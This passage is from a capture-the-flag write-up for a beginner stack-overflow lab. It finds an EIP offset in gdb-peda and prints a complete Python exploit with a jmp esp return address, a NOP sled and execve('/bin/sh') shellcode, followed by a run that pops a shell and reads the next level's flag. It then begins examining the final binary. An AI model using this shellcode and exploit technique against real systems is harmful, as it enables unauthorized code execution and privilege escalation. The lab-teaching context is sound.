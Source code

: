 Using the previously gained information, the offset is adjusted.

```bash
gdb-peda$ pattern_offset 0x413b4141
1094402369 found at offset: 28
```

The final exploit should look like the following:

```python
#!/usr/bin/env python2
import struct

offset = "A" * 28 # offset = 268 (junk)
eip = 0x56558043 # jmpcall : 0x56558043 jmp esp;
ret = struct.pack("<I", eip) # pack the jmpcall in little endian

# slide to shellcode
nops = "\x90" * 10
shellcode = (
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
"\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
) # execve("/bin/sh")

print offset + ret + nops + shellcode
```
```bash
level3@kali:~$ ./levelFour $(./exploit.py)
Buf: AAAAAAAAAAAAAAAAAAAAAAAAAAAAC�UV����������1�Ph//shh/bin��PS��
                                                                   
$ id; cat /home/level4/level4.txt
uid=1004(level4) gid=1003(level3) groups=1003(level3)
e879069[REDACTED]
```
# Level 4 -> Level 5 (root):

This is the hardest level and reason being is because the program does not have a `setreuid()` function used to obtain and set the UID to the owner of the binary. This could be observed in the previous challenges. Essentially, a `setreuid()` combined with a `execve()` functions have to be somehow added as shellcode to make the binary drop a shell as root.

Upon looking at the functions which the binary has, two would be the most interesting - `overflow` and `main`.

```bash
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
0x00001000  _init
0x00001030  printf@plt
0x00001040  gets@plt
0x00001050  __libc_start_main@plt
0x00001060  __cxa_finalize@plt
0x00001070  _start
0x000010b0  __x86.get_pc_thunk.bx
0x000010c0  deregister_tm_clones
0x00001100  register_tm_clones
0x00001150  __do_global_dtors_aux
0x000011a0  frame_dummy
0x000011a5  __x86.get_pc_thunk.dx
0x000011a9  overflow
0x000011ff  main
0x0000121b  __x86.get_pc_thunk.ax
0x00001220  __libc_csu_init
0x00001280  __libc_csu_fini
```

[1]: https://www.vulnhub.com/entry/stack-overflows-for-beginners-101,290/	"IntroToStackOverflow"
[2]: https://github.com/longld/peda
[3]: <http://shell-storm.org/shellcode/files/shellcode-399.php>
[4]: <https://www.exploit-db.com/shellcodes/46809>